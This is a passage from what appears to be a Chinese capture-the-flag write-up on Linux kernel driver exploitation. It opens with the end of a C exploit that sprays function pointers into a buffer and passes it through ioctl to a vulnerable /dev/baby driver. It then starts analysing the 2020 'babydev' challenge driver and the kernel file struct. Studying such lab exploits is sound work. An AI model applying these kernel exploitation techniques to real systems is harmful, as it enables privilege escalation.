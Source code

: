```c
	printf("[+]open drive\n");
	int fd = open("/dev/baby",0);
	if (fd < 0) {
		printf("[-] bad open device\n");
		exit(-1);
	}

	void *buf[0x100];
	printf("&buf : %x\n", &buf);
	for(int i = 0; i<0x12; i++){
		buf[i] = &get;
		printf("[+]buf[%d] = %x\n", i, buf[i]);
	}

	printf("[+]call ioctl\n");
	ioctl(fd, 0x6001, buf);

	return 0;
}
```



### 祥云杯2020 babydev

比赛时一脸懵逼

题目给了五个文件

![](https://tva1.sinaimg.cn/large/0081Kckwly1glwhomgpkqj30sc05s74a.jpg)

ida打开ko文件

![](https://tva1.sinaimg.cn/large/0081Kckwly1glwho5rgbtj31rj0u0tgr.jpg)

![](https://tva1.sinaimg.cn/large/0081Kckwly1glwhohmcg3j31nc0mawjr.jpg)

可以看到注册的驱动叫mychrdev，总体实现的功能是一个字符设备的驱动程序，`kmalloc_order_trace`动态分配内存来保存文件的数据，其地址保存在mydata指针变量，根据文件读写指针对文件的数据进行读写，驱动程序中主要维护三个指针

- 在其file结构体的0x68偏移处存放文件读写指针
- 在mydata+0x10000中存放文件开头相对于mydata的偏移
- 在mydata+0x10008中存放文件结尾相对于mydata的偏移

file结构体

```c
struct file {
     union {
         struct llist_node    fu_llist;
         struct rcu_head     fu_rcuhead;
     } f_u;
     struct path        f_path;
     struct inode        * f_inode;    / * cached value * /
     const struct file_operations    * f_op;
 
     / *
      * Protects f_ep_links, f_flags.
      * Must not be taken from IRQ context.
      * /
     spinlock_t        f_lock;
     enum rw_hint        f_write_hint;
     atomic_long_t        f_count;
     unsigned int         f_flags;
     fmode_t            f_mode;
     struct mutex        f_pos_lock;
```